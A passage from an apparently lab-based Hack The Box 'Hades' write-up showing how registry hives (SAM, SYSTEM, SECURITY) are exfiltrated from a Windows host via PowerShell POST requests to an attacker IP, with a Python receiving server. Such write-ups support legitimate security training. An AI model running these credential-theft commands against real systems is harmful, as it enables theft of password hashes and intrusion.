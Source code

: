 ```
root@kali:$ cat sam.hive.b64|base64 -d >~/htb/endgames/hades/loot/DEV/registry/sam.hive

PS > cd C:\Windows\System32\spool\drivers\color
PS > $base64str = Get-Content system.hive.b64
PS > Invoke-RestMethod -Uri http://10.14.14.37:81/system.hive -Method POST -Body $base64str
root@kali:$ cat system.hive.b64|base64 -d >~/htb/endgames/hades/loot/DEV/registry/system.hive

PS > cd C:\Windows\System32\spool\drivers\color
PS > $base64str = Get-Content security.hive.b64
PS > Invoke-RestMethod -Uri http://10.14.14.37:81/security.hive -Method POST -Body $base64str
root@kali:$ cat security.hive.b64|base64 -d >~/htb/endgames/hades/loot/DEV/registry/security.hive
```

I used a simple POST request to send base64 encoded registry hives to Kali as I was not able to set up any other transport (SMB/FTP did not work). Simple Python HTTP [server](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) supporting POST:

```python
#!/usr/bin/env python3

"""
Based on: https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7
Usage: ./post-server.py <PORT>
"""

import os
import logging
from http.server import BaseHTTPRequestHandler, HTTPServer


class Handler(BaseHTTPRequestHandler):
	def _set_response(self):
		self.send_response(200)
		self.send_header('Content-type', 'text/html')
		self.end_headers()

	def do_GET(self):
		logging.info("GET request,\nPath: %s\nHeaders:\n%s\n", str(self.path), str(self.headers))
		self._set_response()
		self.wfile.write("GET request for {}".format(self.path).encode('utf-8'))

	def do_POST(self):
		content_length = int(self.headers['Content-Length']) # Gets the size of data
		post_data = self.rfile.read(content_length) # Gets the data itself
		#logging.info("POST request,\nPath: %s\nHeaders:\n%s\n\nBody:\n%s\n", str(self.path), str(self.headers), post_data.decode('utf-8'))
		self._set_response()
		self.wfile.write("POST request for {}".format(self.path).encode('utf-8'))

		i = 0
		while True:
			i += 1
			filename = f'response.{i}'
			if not os.path.isfile(filename):
				with open(filename, 'w', encoding='utf-8') as f:
					f.write(post_data.decode('utf-8').replace(' ', '').replace('-----BEGIN CERTIFICATE-----', '').replace('-----END CERTIFICATE-----', ''))
				break


def run(server_class=HTTPServer, handler_class=Handler, port=8080):
	logging.basicConfig(level=logging.INFO)
	server_address = ('', port)
	httpd = server_class(server_address, handler_class)
```